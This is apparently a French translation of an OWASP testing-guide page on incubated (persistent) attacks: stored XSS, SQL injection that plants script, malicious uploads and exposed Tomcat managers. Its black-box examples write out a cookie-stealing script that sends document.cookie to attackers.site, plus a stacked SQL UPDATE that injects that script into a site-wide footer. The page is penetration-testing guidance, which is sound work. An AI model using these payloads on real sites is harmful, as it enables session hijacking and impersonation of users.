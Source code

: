## Sommaire

Aussi connues sous le nom d'attaques persistentes, tester les incubated
est une méthode complexe de test qui nécessite plus d'une vulnérabilité
de validation de données pour fonctionner. Les vulnérabilités incubated
sont typiquement utilisées pour mener des attaques "watering hole"
contre les utilisateurs d'applications web légitimes.

Les vulnérabilité incubated ont les caractéristiques suivantes :

  - En premier lieu, le vecteur d'attaque doit être persistent, il doit
    être stocké dans la couche de persistence, et cela ne peut arriver
    que si une faible validation de données est présente ou si les
    données sont arrivées dans le système par un autre canal, comme une
    console d'administration ou via un processus batch du backend.
  - Deuxièmement, uen fois le vecteur d'attaque a été "rappelé", il doit
    être exécuté avec succès. Par exemple, une attaque par incubated XSS
    nécessitera une faible validation des sorties pour que le script
    puisse être délivré au client sous sa forme exécutable.

L'exploitation de quelques vulnérabilités, ou même de fonctionnalités
d'une application web, va permettre à l'attaquant de déposer des données
qui seront ensuite récupérées par un utilisateur à son insu ou par
d'autres composants du système, et ainsi d'exploiter une autre
vulnérabilité.

Dans un test d'intrusion, le terme **incubated attacks** peut être
utilisé pour évaluer la criticité de certains bogues, utilisant un
problème de sécurité particulier pour construire une attaque côte
client qui pourra cibler un large nombre de victimes simultanément (par
exemple, tous les utilisateurs naviguant sur le site).

Ce type d'attaque asynchrones couvre un large spectre de vecteurs
d'attaque, parmi eux :

  - Les composants de stockage de fichiers d'une application, permettant
    à un attaquant de télécharger des fichiers multimedia corrompus
    (images jpg exploitant CVE-2004-0200, images png exploitant
    CVE-2004-0597, des fichiers exécutables, des pages avec des
    composants actofs, etc.).

<!-- end list -->

  - Des failles XSS dans des forums publics (voir [Testing for Stored
    Cross_site scripting
    (OTG-INPVAL-002)](Testing_for_Stored_Cross_site_scripting_\(OTG-INPVAL-002\) "wikilink")
    pour plus de détails). Un attaquant peut potentiellement stocker des
    scripts ou du code malicieux dans un repository sur le backend de
    l'application (ex: une base de données) afin que ce script/code soit
    exécuté par un des utilisateurs (utilisateurs finaux,
    administrateurs, etc.). L'archétype d'une attaque incubated est
    d'utiliser une vulnérabilité XSS dans un forum d'utilisateurs,
    bulletin board, ou un blog afin d'injecter du code JavaScript dans
    une page vulnérable, qui sera affichée et exécutée par le navigateur
    de l'utilisateur, en utilisant le niveau de confiance du site
    original (vulnérable).

<!-- end list -->

  - Des injections SQL/XPath permettant à l'attaquant de stocker du
    contenu dans la base de données, qui sera ensuite récupéré comme
    partie active du contenu d'une page web. Par exemple, si l'attaquant
    peut poster du JavaScript arbitraire dans un bulletin board afin
    qu'il soit exécuté par les utilisateurs, il peut prendre le contrôle
    de leurs navigateurs (Ex. :
    [XSS-proxy](http://sourceforge.net/projects/xss-proxy))

<!-- end list -->

  - Des serveurs mal configurés permettant l'installation de paquetages
    Java ou de composants web similaires (Ex. : Tomcat, ou des consoles
    d'hébergement web comme Plesk, CPanel, Helm, etc.)

## Comment tester

### Test en boite noire

#### Exemple de stockage de fichier

Vérifier le type de contenu permis sur une application web et l'URL
résultante pour le fichier stocké. Télécharger un fichier qui va
exploiter un composant dans la station de travail locale de
l'utilisateur quand il sera visualisé ou téléchargé par l'utilisateur.
Envoyer un e-mail à la victime ou une autre sorte d'alerte pour
l'inciter à visiter la page. Le résultat attendu est que l'exploit sera
déclenché quand l'utilisateur consulte la page résultante ou télécharge
et exécute le fichier depuis le site de confiance.

#### Exemple XSS sur un Bulletin Board

1\. Introduire du code *JavaScript* comme valeur du champ vulnérable,
par exemple :

`<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`
`  `

2\. Diriger des utilisateurs vers la page vulnérable ou attendre que des
utilisateurs la visitent. Mettre en place un "listener" sur
*attackers.site* pour écouter toutes les connexions entrantes.

3\. Wuand les utilisateurs visitent la page vulnérable, une requête
contenant leur cookie (*document.cookie* est inclu dans l'URL) sera
envoyée vers *attackers.site*, telle que :

` - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;`
`     %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;`
`     TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1`

4\. Utiliser les cookies ainsi obtenus pour usurper l'identité des
utilisateurs sur le site vulnérable.

#### Exemple d'injection SQL

Souvent, cet ensemble d'exemples utilise des attaques XSS pour exploiter
une vulnérabilité d'injection SQL. La première chose à faire est de
tester si le site ciblé comporte une vulnérabilité d'injection SQL. Cela
est décrit dans la section 4.2 [Testing for SQL
Injection](Testing_for_SQL_Injection_\(OTG-INPVAL-006\) "wikilink").
Pour chaque vulnérabilité d'injection SQL, il y a un ensemble de
contraintes décrivant le genre de requêtes que l'attaquant/testeur peut
faire.

Le testeur doit alors faire correspondre les attaques XSS qu'il a
conçues avec les entrées qu'il peut insérer.

1\. De manière similaire aux exemples précédents de XSS, utiliser un
champ d'une page vulnérable à des injections SQL pour changer une valeur
en base de données qui pourra être utilisée par l'application comme
entrée à afficher sur le site sans filtrage adéquat (cela serait une
combinaison d'injection SQL et de XSS). Par exemple, supposons qu'il y
ait une table *footer* en base avec tous les pieds de page des pages du
site, incluant un champ *notice* contenant une note légale apparaissant
en bas de chaque page. Vous pourriez utiliser la requête suivante pour
injecter du code JavaScript dans le champ *notice* de la table ''footer'
dans la base.

` SELECT field1, field2, field3`
`  FROM table_x`
`  WHERE field2 = 'x';`
`     UPDATE footer`
`     SET notice = 'Copyright 1999-2030%20`
`         <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'`
`     WHERE notice = 'Copyright 1999-2030';`

2\. Maintenant, chaque utilisateur visitant le site envoie
silencieusement son cookie vers *attackers.site* (étapes b.2 to b.4).

#### Serveur mal configuré

Certains serveurs web ont une interface d'administration qui peut
permettre à un attaquant de stocker les composants actifs de leur choix
sur le site. Cela peut être le cas avec un serveur Apache Tomcat qui ne
force pas d'authentification solide pour accéder à son Web Application
Manager (ou si le testeur a pu obtenir des identifiants/mot de passe
valides par d'autres moyens).

Dans ce cas, une fichier WAR peut être téléchargé et une nouvelle
application web déployée sur le site, qui permettra non seulement au
testeur d'exécuter le code de son choix localement sur le serveur, mais
aussi d'installer une application sur le site de confiance, à laquelle
les utilisateurs réguliers du site auront accès (très probablement avec
un niveau de confiance plus grand que lorsqu'ils visitent d'autres
sites).

Il devrait être évident que la possibilité de changer le contenu des
page d'un serveur, via des vulnérabilités quelconques exploitable sur le
serveur, et qui vont donner à l'attaquant les droits d'écriture sur
l'arborescence du site, pourra aussi être utile pour placer une telle
attaque incubated sur les pages du serveur (c'est en fait la méthode de
propagation des vers infectant les serveurs web).

### Test en boite grise

Les techniques grises/blanches seront les mêmes que celle discutées
précédemment.

  - Examiner la validation des entrée est la clef pour mitiguer cette
    vulnérabilité. Si d'autres systèmes dans l'entreprise utilise la
    même couche de persistence, elle pauvent avoir des validations
    faibles et les données peuvent être persistées via une "back door".

<!-- end list -->

  - Pour combattre les problèmes de "back door" du côté client, une
    validation des sorties doit aussi être employée afin d'encoder les
    données corrompues avant de les afficher au client, et donc elles ne
    seront pas exécutées.

<!-- end list -->

  - Voir la section [Data
    Validation](Data_Validation_%28Code_Review%29#Data_validation_strategy "wikilink")
    du Guide de revue de code.

## Outils

  - XSS-proxy - <http://sourceforge.net/projects/xss-proxy>
  - Paros - <http://www.parosproxy.org/index.shtml>
  - Burp Suite - <http://portswigger.net/burp/proxy.html>
  - Metasploit - <http://www.metasploit.com/>

## Références

La plupart des références de la section sur les cross site scripting
sont valides. Comme expliqué plus haut, les attaques incubated sont
exécutées en combinant des exploits comme des XSS et des injections
SQL.

**Avis**

  - CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client
    Web Requests - <http://www.cert.org/advisories/CA-2000-02.html>
  - Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site
    scripting vulnerability -
    <http://lists.grok.org.uk/pipermail/full-disclosure/2006-July/048059.html>

**Whitepapers**

  - Web Application Security Consortium "Threat Classification,
    Cross-site scripting" -
    <http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml>